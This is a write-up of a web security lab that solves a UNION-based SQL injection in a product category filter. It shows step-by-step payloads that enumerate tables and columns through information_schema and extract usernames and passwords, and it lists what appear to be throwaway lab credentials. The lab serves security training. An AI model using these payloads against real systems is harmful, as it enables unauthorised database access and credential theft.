
````markdown
# Lab: SQL Injection Attack — Listing Database Contents on Non-Oracle Databases

This lab contains a **SQL Injection** vulnerability in the product category filter.  
The results from the query are returned in the application's response, so a **UNION attack** can be used to retrieve data from other tables.

The application has a login function, and the database contains a table holding usernames and passwords.  
The goal is to determine the table name and column names, then retrieve all usernames and passwords.

To solve the lab, log in as the `administrator` user.

---

## Solution

**Vulnerable Parameter:** `category`  
**Attack Type:** `UNION ATTACK`

---

### 1. Determine Number of Columns
There are **two columns**.

```bash
SELECT * FROM products WHERE category='gifts'+UNION+SELECT+NULL,NULL--
SELECT * FROM products WHERE category='gifts'+ORDER+BY+2--
````

---

### 2. Columns Containing Strings

Yes, the columns can contain string values.

```bash
'+UNION+SELECT+'a','b'--
```

---

### 3. Find Table Name

Table name found:
**`users_pnjafw`**

```bash
'+UNION+SELECT+NULL,NULL+FROM+information_schema.tables--
'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
```

---

### 4. Find Column Names

Column names found:

* `username_zwksxy`
* `password_tlfnos`

```bash
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_pnjafw'--
```

---

### 5. Extract Usernames and Passwords

Retrieved credentials:

| Username      | Password             |
| ------------- | -------------------- |
| carlos        | cyn6fub8fzfymp6uxtnm |
| wiener        | mmxzsdokkv07t47s9lvf |
| administrator | qiw5l39d6n84v4565y61 |

Command used:

```bash
'+UNION+SELECT+username_zwksxy,password_tlfnos+FROM+users_pnjafw--
```

---

### 6. Login

Use retrieved credentials to log in as the administrator.

---


